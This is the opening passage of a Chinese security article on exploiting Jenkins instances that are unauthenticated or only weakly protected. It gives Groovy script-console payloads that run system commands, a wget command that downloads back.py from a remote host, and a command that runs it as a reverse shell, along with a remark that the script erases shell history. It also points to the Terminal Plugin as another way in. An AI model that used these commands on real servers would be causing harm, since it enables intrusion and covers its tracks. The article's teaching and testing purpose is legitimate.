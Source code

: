 

知其一不知其二之Jenkins Hacking - SecPulse.COM | 安全脉搏
 https://www.secpulse.com/archives/2166.html

本文首发安全脉搏 感谢大王叫我来巡山 的投递 转载请注明来源
大多安全工作者听到jenkins都会知道有个未授权的命令执行
但是如果Script页面要授权才能访问呢 或者你的用户没有Overall/RunScripts权限呢
抱着提出问题-->测试问题-->解决问题的思路有了这篇文章
shot_jenkins
 
 
 
 
 
 
 
 
 
由于版本众多 也不用下载本地测了 直接在内网找到六个
 
jenkins_inner
 
 
 
 
截止发稿 Jenkins新版本为(1.589)
一、 知其一的Jenkins未授权访问可执行命令

 
http://www.secpulse.com:8080/manage
http://www.secpulse.com:8080/script
默认是8080端口 未授权访问就是任意用户都能访问 都能执行命令
jenkins_1
 
 
1） println "ifconfig -a".execute().text  执行一些系统命令

 
老外比较喜欢这样用：
def sout = new StringBuffer(), serr = new StringBuffer()

def proc = '[INSERT COMMAND]'.execute()

proc.consumeProcessOutput(sout, serr)

proc.waitForOrKill(1000)

println "out> $sout err> $serr"
 
 
2） 直接wget下载back.py反弹shell

 
println "wget http://xxx.secpulse.com/tools/back.py -P /tmp/".execute().text

println "python /tmp/back.py 10.1.1.111 8080".execute().text
 
back.py里面已经有了HISTFILE代码，会自动去掉各种history记录，确保shell断掉的时候不会被记录到.bash_history里面
back.py不需要root权限
jenkins_reverse_shell
 
 
3） 不想反弹试试Terminal Plugin

可以搜索安装Terminal Plugin
Terminal Plugin
https://wiki.jenkins-ci.org/display/JENKINS/Terminal+Plugin
jenkins_terminal
不想提权的话 还是蛮好用的终端插件 谁用谁知道~
二、不知其二之多种方式写shell
